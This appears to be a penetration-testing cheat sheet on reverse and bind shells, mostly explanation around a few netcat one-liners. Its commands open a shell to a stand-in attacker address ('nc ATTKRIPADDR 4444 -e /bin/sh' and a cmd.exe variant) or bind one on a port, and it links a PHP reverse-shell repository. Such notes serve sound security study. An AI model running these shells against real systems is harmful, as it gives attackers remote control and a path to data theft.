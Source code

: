 
## Quick-Use

**Commands**:
- `netcat`
    - REVERSE SHELL: **Hacker <--- Target**
        - *Listener* -- `nc -lvp 4444` - Attacker's setup, `-lvp` means "listening, verbose, port". So this says to "listen for a process connection on port 4444"
        - *Connector* -- *Linux*: `nc ATTKRIPADDR 4444 -e /bin/sh` | *Win*: `nc ATTKRIPADDR 4444 -e cmd.exe` - Target's setup, `-e` means establish. So this says "connect to the IP address at port 4444 and establish a running `/bin/sh` process (`shell`)"
    - BIND SHELL: **Hacker ---> Target**
        - *Connector* -- `nc TRGTIPADDR 4444` - Attacker's setup. This says to "request a connection to the IP address at port 4444 and accept the service they establish"
        - *Listener* -- *Linux*: `nc -lvp 4444 -e /bin/sh` | *Win*: `nc -lvp 4444 -e cmd.exe` - Target's setup, `-e` means establish. So this says "listen to port 4444 and establish a running `/bin/sh` process (`shell`) when a connection is established"

*Tools*:
- `netcat` - CLI - (in this context) usually used to gain a reverse shell
- Different languages can offer different ways to run a reverse shell, which is useful if you can only upload a file to a server that accepts a certain file extension, or other similar situations. Here are some repos to reverse shells for different languages I've found:
    - PHP - https://github.com/pentestmonkey/php-reverse-shell

## General

**Objectives**: Establish a connection on target to allow shell executable commands. Can exfiltrate data, gain more enumeration on target, or pivot to higher value.

**Overview**:
There are two main types of remote access shells:
- Reverse Shells - most common shell (95% of the time according to Heath) - victim connects to attacker (**Hacker <--- Target**)
- Binding Shells - More common on External assessments - Attacker connects to target (**Hacker ---> Target**)
## Glossary